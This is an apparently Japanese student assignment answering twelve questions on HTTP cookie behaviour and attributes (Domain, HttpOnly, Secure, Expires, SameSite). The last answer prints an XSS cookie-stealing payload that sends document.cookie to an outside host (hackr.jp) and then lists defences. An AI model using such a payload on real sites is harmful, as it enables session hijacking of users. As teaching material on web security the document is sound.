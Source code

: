 # 課題4

## 問題１

　HTTPはステートレス・プロトコルであるため、以前やり取りしたリクエストやレスポンスの状態を管理しない。つまり、以前の状態を踏まえた上でのリクエストを処理することができない。たとえば、認証が必要なWebページで状態管理が無いとすると、認証済みという状態を忘れてしまうため、新たなページに移動するたびに再度ログイン情報を送るか、リクエストごとにパラメーターか何かをつけてログイン状態を管理しなければならなくなる。  
　ステートレス・プロトコルの特徴は残したまま、こういった問題を解決するためにCookieが取り入れられた。Cookieは、リクエストとレスポンスにCookieという情報を載せることによって、クライアントの状態を把握するための仕組み。  
　Cookieは、サーバーからのレスポンスで送られたSet-Cookieというヘッダーフィールドによって、Cookieをクライアントに保持してもらうように指示を出す。次に、クライアントが同じサーバーにリクエストを出す際には、クライアントが自動的にCookieに値を入れて送信する。  
　サーバーはクライアントが送ってきたCookieを見ることで、どのクライアントからのアクセスなのかをチェックし、サーバー上の記録を確かめることで、以前の状態を知ることができる。

## 問題2

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能なため。

## 問題3

送信される。  
同一ホストであれば、異なるポートにも送信される。

[参考](https://datatracker.ietf.org/doc/html/rfc6265)

```
Similarly, cookies for a given host are shared across all the ports on that host
```

## 問題4

送信されない。  
Domain属性が指定されていない場合、同一オリジンでのみ利用可能となり、サブドメインは除外される。

## 問題5

送信される。  
Domain属性が指定されている場合、サブドメインにも送出される。

## 問題6

HttpOnly属性を指定することで可能になる。  
HttpOnly属性は、Cookieの取得をJavaScript経由で行うことができないようにするCookieの拡張機能。  
HttpOnly属性が指定されたCookieはJavaScriptの「Document.cookie」APIにアクセスできなくなる。

## 問題7

Secure属性を指定することで可能になる。  
Secure属性は、WebページがHTTPSで開かれているときのみに、Cookieが送出されるよう制限する。

## 問題8

Expires属性は、ブラウザがCookieを送出することができる有効期限を指定することができる。

## 問題9

SameSite属性は、ブラウザがクロスサイトリクエストとともにCookieが送信されることを防ぐ。  
主な目的は、クロスオリジンの情報漏洩リスクを軽減することで、CSRF の対策にもなる。  
取ることができる値は、Strict, Lax, Noneの3つ。  
Strictの値を設定すると、すべてのクロスサイトの閲覧コンテキストにおいて、ブラウザからターゲットサイトにクッキーが送信されないようになる。  
Laxの値を設定すると、外部のウェブサイトで通常のリンクからアクセスしたときはCookieを許可し、CSRF が発生しやすいリクエストメソッド (POST など) ではCookieをブロックする。  
Noneの値を設定すると、ブラウザはすべての閲覧コンテキストでクッキーを送信する。

[参考](https://owasp.org/www-community/SameSite)

## 問題10

- 4096バイトを超える容量の大きい情報。
- サーバーに送信する必要が無い情報。
- 暗号化されていないパスワードなどの秘匿性の高い情報

## 問題11

クッキーを使うべきタイミング. 
ログイン情報などのサーバーに送信する必要がある情報や、秘匿性の高い重要な情報を保持するとき

ローカルストレージを使うべきタイミング  
サイトの表示設定などの、サーバーに送信する必要がない情報。

## 問題12

下記のようなスクリプトを仕込むことで、ユーザーのCookieをXSSによって奪うことができる。

```
<script src=http://hackr.jp/xss.js></scriot>
```

このスクリプトが指し示す http://hackr.jp/xss.js は下記のJavaScriptが記述されている

```
const content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">")
```

このJavaScriptがXSSの脆弱性のあるWebアプリケーション上で実行されると、そのWebアプリケーションのドメインのCookie情報にアクセスされる。
そして、その情報が http://hackr.jp/ に送信され、ユーザーのCookie情報を奪うことができる。

対策としてはCookieにHttpOnly属性を設定し、JavaScriptで「document.cookie」にアクセスできなくする方法や、
ユーザーの入出力が行われる箇所でエスケープ処理を行うなどの方法がある。
